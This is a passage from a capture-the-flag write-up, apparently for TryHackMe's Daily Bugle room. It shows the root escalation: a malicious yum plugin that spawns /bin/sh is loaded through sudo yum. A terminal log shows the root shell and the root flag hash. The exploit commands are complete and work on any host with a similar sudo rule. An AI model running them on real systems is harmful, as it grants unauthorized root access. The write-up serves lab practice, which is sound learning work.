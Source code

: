   ```bash
  import yum
  from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
  requires_api_version='2.1'
  def init_hook(conduit):
    os.execl('/bin/sh','/bin/sh')
  EOF

  sudo yum -c $TF/x --enableplugin=y
  ```

  After dropping that into the shell, we are now root:
  ```bash
  [jjameson@dailybugle ~]$ TF=$(mktemp -d)
  [jjameson@dailybugle ~]$ cat >$TF/x<<EOF
  > [main]
  > plugins=1
  > pluginpath=$TF
  > pluginconfpath=$TF
  > EOF
  [jjameson@dailybugle ~]$
  [jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
  > [main]
  > enabled=1
  > EOF
  [jjameson@dailybugle ~]$
  [jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
  > import os
  > import yum
  > from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
  > requires_api_version='2.1'
  > def init_hook(conduit):
  >   os.execl('/bin/sh','/bin/sh')
  > EOF
  [jjameson@dailybugle ~]$
  [jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
  Loaded plugins: y
  No plugin match for: y
  sh-4.2# id
  uid=0(root) gid=0(root) groups=0(root)
  sh-4.2# ls
  user.txt
  sh-4.2# cd /root
  sh-4.2# cat root.txt
  eec3d53292b1821868266858d7fa6f79
  sh-4.2#
  ```

## Task 3 - Credits
1. Found another way to compromise the machine or want to assist others in rooting it? Keep an eye on the forum post located [here](https://tryhackme.com/thread/5e1ef29a2eda9b0f20b151fd).
